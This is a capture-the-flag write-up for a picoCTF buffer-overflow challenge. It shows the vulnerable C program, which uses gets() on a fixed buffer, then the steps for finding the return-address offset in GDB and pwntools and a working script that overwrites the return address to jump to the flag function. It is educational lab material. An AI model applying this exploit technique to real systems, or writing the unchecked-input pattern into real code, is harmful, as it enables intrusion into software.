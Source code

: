 Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

<br/>

First let's find the offset, generate a cyclic pattern

```python
$ python3
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

Now let's open the binary on GDB and set a breakpoint before the programs exits and send the pattern
```bash
$ gdb vuln
(gdb)disass main
0x0804870f <+113>:   pop    %ebp
0x08048710 <+114>:   lea    -0x4(%ecx),%esp
0x08048713 <+117>:   ret
(gdb) break *0x08048713
Breakpoint 1 at 0x8048713
(gdb) r
Starting program: /problems/overflow-1_1_e792baa0d29d24699530e6a26071a260/vuln 
Give me a string and lets see what happens: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Woah, were jumping to 0x61616174 !

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
```

And now find the offset

```python
>>> cyclic_find(0x61616174)
76
```

<br/>

Now get the address of vuln, I'll use objdump
```bash
objdump -d vuln | grep flag
```

<br/>

And now send the padding with the address of vuln

<br/>

```python
from pwn import *

user = ''
password = ''
host = '2019shell1.picoctf.com'

s = ssh(user=user,password=password,host=host)

p = s.run('cd /problems/overflow-1_1_e792baa0d29d24699530e6a26071a260 && ./vuln')

payload = b'a'*76
payload += p32(0x080485e6) #objdump -d vuln | grep flag

p.recvuntil('Give me a string and lets see what happens: ')
p.sendline(payload)
p.interactive()	
```
